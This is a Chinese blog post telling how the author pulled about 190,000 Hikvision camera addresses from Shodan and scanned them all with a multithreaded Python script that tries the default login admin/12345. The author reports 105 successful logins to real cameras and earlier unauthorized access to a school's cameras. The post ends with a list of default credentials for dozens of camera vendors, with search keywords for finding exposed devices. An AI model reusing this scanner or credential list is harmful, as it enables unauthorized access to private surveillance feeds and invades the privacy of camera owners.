 ```yaml
---
title: 针对海康威视网络摄像头弱密码的一次扫描
date: 2019-11-28 20:15:06
tags:
	- scan
	- web
categories:
	- coding
---
```


## 前言

在我上高二的时候，海康威视摄像头被爆出大量公开web访问具有弱密码，那时手动对学校内部的摄像头进行fuzz，成功进入了几个摄像头控制web，能够随意查看学校的监控。

海康威视web界面的弱密码是 admin  12345

时隔四年，想要再次对网络上能够访问到的海康威视web管理进行一次批量弱密码扫描

## 从shodan获取数据

首先需要搞到全网所有能够访问到的海康威视机器的IP，这是个工作量极大的任务，如果自己进行全网服务扫描的话无论是时间周期还是耗费资金都是我无法承受的

之前了解过shodan，shodan被称为“最恐怖的搜索引擎”，能够提供多年来其扫描到的全网提供的服务，可惜数据的价格极高

今年黑五是shodan诞生第十年，shodan给出极大的优惠，正式会员+20credit只需要1刀，手头有信用卡和企业邮箱的我二话不说先上了20个账号

有了shodan的credit就可以购买它的数据了。海康威视的web管理界面的关键词很简单，只需要在shodan搜索“hikvision”

{% asset_img shodan1.png [最新的搜索结果] %}

在我写这篇博客的时候搜索到的数据有18万条，前段时间我下载数据的时候是19万条。

下载大量数据是需要花credit的，1credit可以下载1万条数据，所以19万多的数据花费了我20credit，正常情况下20credit是49刀，这次黑五真是太实惠了

## 提取有用信息

有了数据之后通过python解析，检查是否存在http服务，如果存在就提取ip和port

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

import json

fi = open("shodan_data.json")
fo = open("ip.txt", 'w')

line = fi.readline()
numall = 1
num = 0

while line:
    line = fi.readline()
    numall = numall+1
    try:
        a = json.loads(line)
        if 'http' in a:
            num = num+1
            txt = a['http']['host']+':'+str(a['port'])+'\n'
            fo.write(txt)
            print(txt)
    except Exception as e:
        continue

fo.close()
fi.close()

print(numall)
print(num)
```

## 分析与扫描

然后通过多线程python脚本进行弱密码批量扫描。

通过手工尝试找到一台可以弱密码登录进去的机器，通过burp抓包分析，找到用来验证弱密码的接口。

{% asset_img baseauth.png [登录使用的接口和验证方式] %}

分析发现登录使用的是base auth，这就简单了。使用的接口是userCheck，如果登录成功应该返回200.

{% asset_img authsuccess.png [登录成功] %}

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
#批量筛选海康威视摄像头的弱密码
import threading
import requests
import queue
import sys
import re

def Threads():
    threadlist=[]
    myqueue=queue.Queue()
    for ip in open('ip.txt','r'): #扫描出的ip
        myqueue.put(ip.replace('\n',''))
    for x in range(0,100):  #线程数
        th=threading.Thread(target=scan_Hikvision,args=(myqueue,))
        threadlist.append(th)
    for t in threadlist:
        t.start()
    for t in threadlist:
        t.join()

def scan_Hikvision(myqueue):
    while not myqueue.empty():
        ip=myqueue.get()
        try:
            print("[*]scan:"+ip)
            r = requests.get(url=("http://%s/PSIA/Custom/HIK/userCheck" % ip),auth=('admin','12345'),timeout=10)
            status = re.findall(r'<statusValue>(.*)</statusValue>', r.text)
            if status[0] == '200':
                print('[√] Host http://'+ ip +' Login Success!\n')
                f = open('ok.txt', 'a+')
                f.write(ip+"\n")
                f.close()
                break
        except:
            continue

if __name__=='__main__':
    Threads()
```

正好有个美国的vps，就扔到这个服务器上进行扫描，本机也开起来扫

100线程很快就扫描完毕了，国内外扫描完的结果去重后一共留下105个可登录弱密码。感觉不应该只有这么点，登录后查看只发现一个版本的海康威视，可能是检测弱密码的接口在其他版本中不存在，或者其他版本默认密码更换或者其他原因

## 后话

海康威视应该是采取了手段来避免弱密码的再次产生，但是之前老版本的DVR还有一部分并没有进行更新，大部分是农村的家庭或工厂监控，大家也都不太懂，并没有修改默认密码

心里不是滋味，身边也有一些父母的朋友他们让我帮忙安装一些路由器、监控等设备，他们的文化水平不高，当我要给他们修改密码的时候，一部分会选择手机号码，也有一部分让我不要修改密码，说改了别记不住，直接出厂密码就行了，忘了可以看一下说明书

能不能想出一种办法，既考虑到安全性，又能顾虑到这部分人的需求，这是个问题

## 弱密码收集

```
1.海康威视IP网络摄像机：
用户：admin，密码：12345
zoomeye搜索关键词：hikvision
2.大华网络摄像机：
user:admin pass:admin 管理权限
user:default pass:user 用户默认登陆帐号
user:888888 pass:admin
user:666666 pass:user
zoomeye搜索关键词：WEB SERVICE
3.cctv摄像机：
user：admin pass：空
telnet登陆 user：root pass：”juantech”
zoomeye搜索关键词：JAWS/1.0
4.SQ-WEBCAM摄像机：
user：admin pass：admin
zoomeye搜索关键词：SQ-WEBCAM
ACTi: admin/123456 or Admin/123456
American Dynamics: admin/admin or admin/9999
Arecont Vision: none
Avigilon: admin/admin
Axis: traditionally root/pass, new Axis cameras require password creation during first login
Basler: admin/admin
Bosch: none
Brickcom: admin/admin
Canon: root/camera
Cisco: No default password, requires creation during first login
Dahua: admin/admin
Digital Watchdog: admin/admin
DRS: admin/1234
DVTel: Admin/1234
DynaColor: Admin/1234
FLIR: admin/fliradmin
Foscam: admin/
GeoVision: admin/admin
Grandstream: admin/admin
Hikvision: admin/12345
Honeywell: admin/1234
IQinVision: root/system
IPX-DDK: root/admin or root/Admin\
JVC: admin/jvc
March: Networks: admin/
Mobotix: admin/meinsm
Panasonic: admin/12345
Pelco Sarix: admin/admin
Pixord: admin/admin
Samsung Electronics: root/root or admin/4321
Samsung Techwin (old): admin/1111111
Samsung (new): admin/4321
Sanyo: admin/admin
Scallop: admin/password
Sentry360 (mini): admin/1234
Sentry360 (pro): none
Sony: admin/admin
Speco: admin/1234
Stardot: admin/admin
Starvedia: admin/
Trendnet: admin/admin
Toshiba: root/ikwd
VideoIQ: supervisor/supervisor
Vivotek: root/
Ubiquiti: ubnt/ubnt
Wodsee: admin/
```
